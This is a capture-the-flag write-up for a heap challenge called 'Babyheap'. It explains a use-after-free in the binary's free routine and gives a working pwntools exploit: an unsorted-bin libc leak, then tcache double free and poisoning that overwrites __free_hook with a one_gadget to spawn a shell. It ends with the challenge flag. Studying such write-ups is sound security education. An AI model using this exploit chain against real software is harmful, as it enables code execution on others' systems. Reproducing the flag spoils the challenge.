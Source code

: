 # Babyheap
### Description
You can never get away from these pesky baby challenges. So I thought, if you can't beat them, join them!

#### Author
Tango
#### Points and solves
498 points, and 18 solves.


We are given a classic heap exploitation binary, where we have the ability to malloc, free and show chunks in the memory.
The binary is has a ```while true``` that runs these options:
```
1. Allocate some memory
2. Show data at memory location
3. Free some memory
4. Exit
```

1. Allocating data lets us choose the size, contents and index of the chunk. There can be at most 8 chunks.
chunk addresses are stored in an array named ```heap_buf``` in the ```bss``` segment.
2. Printing data, lets us choose an index from the ```heap_buf``` array and prints its' contents.
3. Free, lets us free a chunk from the ```heap_buf``` array.
4. Exits.

## The vulnerabilities:
1. Let's take a look at the ```freeing``` function:
```c
void freeing(void)
{
  int iVar1;
  long in_FS_OFFSET;
  undefined local_15;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What index would you like to free?");
  iVar1 = __isoc99_scanf(&DAT_00102031,&local_14);
  if (iVar1 == 0) {
    puts("Please enter an integer.");
    __isoc99_scanf(&DAT_0010204d,&local_15);
  }
  else {
    if (local_14 < 8) {
      free(*(void **)(heap_buf + (long)local_14 * 8));
    }
    else {
      puts("Can\'t reach that index!");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
Well this function indeed frees a chunk but doesn't set the ```heap_buf``` at that index to ```0```, giving us use after free.

2. The libc version of the challenge is 2.27 so we have some freedom doing common heap exploits since this isn't libc >= 2.29.
In particular, we will use unsorted bin libc leak and tcahce dup and tcache poisoning for our advantage.
## Our convenience functions:
```python
def alloc(index, size, content):
    p.sendlineafter("Exit", "1")
    p.sendlineafter("?", str(size))
    p.sendlineafter("?", str(index))
    p.sendlineafter("?",  content)

def free(index):
    p.sendlineafter("Exit", "3")
    p.sendlineafter("?", str(index))

def show(index):
    p.sendlineafter("Exit", "2")
    p.sendlineafter("?", str(index))
```

## Leaking libc
First of all, I want to leak libc base address and it is possible to do that by using unsorted bin vulnerability.
Unsorted bin, is a circular list, with both ends pointing into ```main_arena``` which are fixed variables in libc.
So, if we can leak one of the ends of this circular list we can determine libc base.

```python
alloc(0, 0x2000, 8*b"A")
alloc(1, 0x2000, 8*b"B")
free(0)
show(0)
```
We alloc two large chunks, when we free the first one it'll end up of the unsorted bin.
If I had allocated only one large chunk, upon free, it'll consolidate with the ```top``` chunk, therefore we must allocate two chunks.
Now because we have a use after free, when we so the contents of the first chunk we actually leak the ```fd``` pointer of the chunk in the unsorted bin.
This gives us a known address with a fixed offset of ```0x3ebca0``` to libc base.

## Quick overview of tcache dup & poisoning
Freed small chunks are stored in the ```tcache```, and upon ```maloc```ing chunks of some size, ```malloc``` will first lookup in the ```tcache```
Chunks in the tcache are structs that look like: 
```c
strcut chunk {
	INTERNAL_SIZE_T mchunk_prev_size;
	INTERNAL_SIZE_T mchunk_size;
	struct malloc_chunk* fd; //Pointer to the next chunk in the tcache.
	struct malloc_chunk* bk; //Pointer to the previous chunk in the tcahce.
}
```
Where the pointer to the chunk actually point to the ```fd``` member.
Now, imagine:
```c
malloc(0x10) // chunk #1
free(chunk1) // tcache: chunk1
free(chunk1) // tcache: chunk1 -> chunk1
```
The tcache will have the two same chunks, where the first chunk ```fd``` member points to itself.
Now,
```c
malloc(0x10) // we get the same chunk1, the first in the tcache.
write(chunk1, address) // write some address to the newly malloc'd chunk. tcache: chunk1 -> address
malloc(0x10) // we get the same chunk2, the second in the tcache.
malloc(0x10) // we get a chunk that points to address!
```
The point is, that writing to chunk, actually override the ```fd``` member, and upon next allocation, ```malloc``` will be tricked and allocate the chunk pointed by the ```fd``` pointer of ```chunk1```

So,
```python
alloc(2, 0x10, 8*b"A")
alloc(3, 0x10, 8*b"B")
free(2)
free(2)

alloc(5, 0x10, p64(libc.sym["__free_hook"]))
alloc(6, 0x10, 8*b"C")
alloc(7, 0x10, p64(libc.address + 0x4f3c2))
```
allocating chunk 5 and writing ```__free_hook``` to it, will poison the tcache.
allocating chunk 6 will give us the 2nd ```free(2)``` entry from the tcache.
Chunk 7 will point to ```__free_hook```, and we write the address of a ```one_gadget``` there.

Now simply ```free(0)``` and we get shell.

#### Flag
```fl4g{us1ng_4_d0ubl3_fr33_1s_s1mpl3r_s41d_th4n_d0n3_8329321}```
